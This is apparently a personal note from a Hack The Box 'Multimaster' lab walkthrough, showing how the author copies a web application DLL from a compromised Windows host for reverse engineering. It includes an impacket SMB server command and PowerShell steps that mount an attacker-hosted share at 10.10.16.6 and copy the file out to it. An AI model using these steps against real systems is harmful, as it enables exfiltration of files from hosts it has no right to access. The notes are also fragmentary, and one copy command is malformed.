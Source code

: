 
![[Pasted image 20240927040947.png]]

Let's copy the .dll and do some reverse engineering.


So to copy the file let's fire up a SMB share and copy the .dll their
```
impacket-smbserver Hackthebox $(pwd) -smb2support -user testing -password testing
```

Get a NEW PS-Drive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.6\Hackthebox
```

![[Pasted image 20240927042918.png]]


```
Copy-Item "C:\inetpub\wwwroot\bin\MultimasterAPI.dll" -Destination "testing"
```


```
copy C:\inetpub\wwwroot\bin\MultimasterAPI.dll testing
```


```
Copy-Item "C:\inetpub\wwwroot\bin\MultimasterAPI.dll" -Destination "C:\Users\alcibiades\Documents"
```


SO now i finally know why to look into this directory as this questions raised 1st thing in my mind.
![[Pasted image 20241002023222.png]]

So i was right we have to copy the file were we have write permission and u have guessed it right in the windows spoolers directory.

```
copy MultimasterAPI.dll" -Destination "C:\Users\alcibiades\Documents"
```